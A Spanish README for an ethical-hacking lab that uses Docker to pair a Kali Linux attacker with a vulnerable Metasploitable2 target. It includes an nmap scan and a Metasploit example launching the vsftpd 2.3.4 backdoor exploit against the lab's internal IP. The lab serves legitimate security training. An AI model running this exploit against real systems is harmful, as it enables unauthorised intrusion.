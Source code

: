 # 🛡️ Laboratorio de Hacking Ético con Docker

Este repositorio contiene un entorno de laboratorio práctico para realizar ejercicios de hacking ético en un entorno seguro y aislado. Incluye:

- 🐧 Kali Linux como sistema atacante
- 🎯 Metasploitable2 como sistema vulnerable
- 🔗 Red virtual interna para simular ataques reales sin riesgos

---

## 🚀 Requisitos

- [Docker](https://www.docker.com/get-started)
- [Docker Compose](https://docs.docker.com/compose/install/)

---

## 🧰 Cómo usar

### 1. Clonar el repositorio (o crear tu propio docker-compose.yml)

```bash
git clone https://github.com/sterlux/ethical-hacking-lab.git
cd ethical-hacking-lab
```

### 2. Levantar los contenedores

```bash
docker-compose up -d
```

Esto levantará:

- `kali`: Kali Linux con bash interactivo
- `metasploitable`: Máquina con múltiples servicios vulnerables

### 3. Acceder al contenedor Kali

```bash
docker exec -it kali bash
```

### 4. Instalar herramientas en Kali

Dentro del contenedor Kali (una sola vez por sesión):

```bash
apt update
apt install -y metasploit-framework
apt install -y nmap
apt install -y  net-tools
apt install -y  curl
apt install -y  iputils-ping
```

---

## 🧪 Escaneo de objetivos

Desde Kali, escanea Metasploitable:

```bash
nmap -sV 172.25.0.20
```

Deberías ver servicios vulnerables como:

- FTP (vsftpd 2.3.4)
- Telnet
- Apache 2.2.8
- Samba
- MySQL

---

## 🎯 Ejemplo de ataque con Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.25.0.20
run
```

---

## ⚠️ Advertencia

**Este laboratorio contiene software vulnerable.**  
No expongas estos contenedores a redes públicas.  
Usa siempre en entornos cerrados y educativos.

---

## 📦 Créditos

- [Kali Linux Docker](https://hub.docker.com/r/kalilinux/kali-rolling)
- [Metasploitable2 Docker (tleemcjr)](https://hub.docker.com/r/tleemcjr/metasploitable2)

---

## ✅ Red interna

| Contenedor     | IP          | Rol      |
| -------------- | ----------- | -------- |
| kali           | 172.25.0.10 | Atacante |
| metasploitable | 172.25.0.20 | Objetivo |

